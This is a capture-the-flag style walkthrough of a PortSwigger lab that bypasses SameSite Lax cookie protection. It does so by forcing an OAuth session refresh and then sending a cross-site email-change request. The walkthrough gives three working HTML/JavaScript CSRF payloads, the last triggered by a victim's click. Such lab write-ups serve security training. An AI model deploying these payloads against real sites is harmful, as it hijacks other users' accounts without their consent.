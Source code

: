 [Source](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)
## Task
The email address change functionality in this lab is vulnerable to CSRF. To solve the task, we need to perform a CSRF attack that will change the victim's email address. We should use the provided exploit server to host our attack.
The lab supports `OAuth` login. We can login using our social media account with the following credentials: `wiener:peter`

> [!info] Note
> SameSite defaults vary across browsers. Since the victim is using Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test the exploit.
## Solution
Go to the task site

![image](images/20241225221033.png)

Log in as user `wiener` and change email

![image](images/20241225221351.png)
Intercept the request via `Burp Suite`

![image](images/20241225221428.png)

Notice that it does not contain any unpredictable tokens. This means that it may be vulnerable to CSRF if we can bypass any `SameSite cookie` restrictions.
Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the `OAuth` flow and see that the site does not explicitly specify any `SameSite` settings when setting session `cookies`. As a result, the browser uses the default `Lax` restriction level.

![image](images/20241225221630.png)

Now let's move on to `Exploit Server`. Let's use the following template to create a basic CSRF attack to change the victim's email address:
```HTML
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

![image](images/20241225221843.png)

We save the exploit and view it ourselves. Now there are two possible options, depending on how much time has passed since we logged in:
1. If more than two minutes have passed, the `OAuth` flow will work again, we will log in again, and the attack will not work. In this case, we repeat this step immediately.
2. If we logged in less than two minutes ago, the attack will be successful, and our email address will indeed change. In `Proxy > HTTP history` we find the `POST /my-account/change-email` request and make sure that our session `cookie` was enabled, despite the fact that it was a cross-site `POST` request.

![image](images/20241225222002.png)


![image](images/20241225222008.png)

![image](images/20241225222147.png)

In the browser, we notice that navigating to the `/social-login` URL automatically starts the full `OAuth` flow. If we still have an active session on the `OAuth` server, this will happen without any interaction.
In `Proxy history`, we see that each time the `OAuth` flow completes, the target site sets a new session `cookie`, even if we were already logged in.

![image](images/20241225222357.png)


![image](images/20241225222415.png)

Back to the `Exploit Server`. Modify the `JavaScript` to first refresh the victim's session (by forcing their browser to visit `/social-login`), and then — after a short pause — make a request to change the email address. One possible option:
```HTML
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

![image](images/20241225222920.png)

>**Note**  
>We open `/social-login` in a new window so that we don't leave the exploit until the change email request is sent.

We save the exploit and view it ourselves. We notice that the initial request is blocked by the browser pop-up blocker.

![image](images/20241225223047.png)


![image](images/20241225223101.png)


![image](images/20241225223110.png)
However, the CSRF attack is launched after the pause. But it will only work if less than two minutes have passed since our `cookie` was set. If more has passed, the pop-up blocker will not allow the `cookie` to be forcibly updated, and the attack will not work.
We understand that the pop-up is blocked because we did not interact with the page manually. We upgrade the exploit so that the victim clicks on the page, and only after the click the pop-up will open. For example:
```HTML
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

![image](images/20241225223248.png)

We test the attack on ourselves again, while monitoring `Proxy history` in `Burp Suite`.

![image](images/20241225223352.png)

![image](images/20241225223409.png)


![image](images/20241225223420.png)
When the browser asks, we click on the page. This starts the `OAuth` flow and gives us a new session `cookie`. After 5 seconds, we see that a CSRF request `POST /my-account/change-email` is sent, which already uses our new session `cookie`.
We go to our account page and make sure that the email address has been changed.

![image](images/20241225223740.png)

Change the email address in the exploit to one that does not match our own. Send the exploit to the victim.

![image](images/20241225223824.png)

Click `Store` and `Deliver exploit to victim`. The lab is solved